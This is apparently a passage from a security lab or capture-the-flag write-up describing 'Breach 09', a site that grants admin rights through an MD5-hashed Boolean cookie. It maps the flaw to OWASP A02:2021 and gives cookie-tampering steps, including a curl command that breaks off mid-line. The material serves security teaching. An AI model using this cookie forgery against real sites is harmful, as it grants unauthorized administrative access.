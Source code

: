 ## Breach 09 – Insecure Cookie-Based Authorization via MD5 Hash

**Vulnerability:**  
The site uses a cookie (`I_am_admin`) that stores an MD5 hash of a Boolean value (`true` or `false`) to determine admin access. This is both predictable and reversible using online hash databases.

**OWASP Top 10 Mapping:**  
**A02:2021 – Cryptographic Failures**  
Using unsalted MD5 for sensitive logic like authentication or authorization is insecure and easily exploited.

**Exploitation:**  
- Intercepted the request and found the following cookie:
  ```
  I_am_admin=68934a3e9455fa72420237eb05902327
  ```
- Looked up the hash on hashes.com, revealing:
  ```
  68934a3e9455fa72420237eb05902327 → false
  ```
- Replaced the cookie with the MD5 hash for `"true"`:
  ```
  b326b5062b2f0e69046810717534cb09
  ```
- Sent the request again with the modified cookie:
  ```bash
  curl --cookie "I_am_admin=b326b5062b2f0e
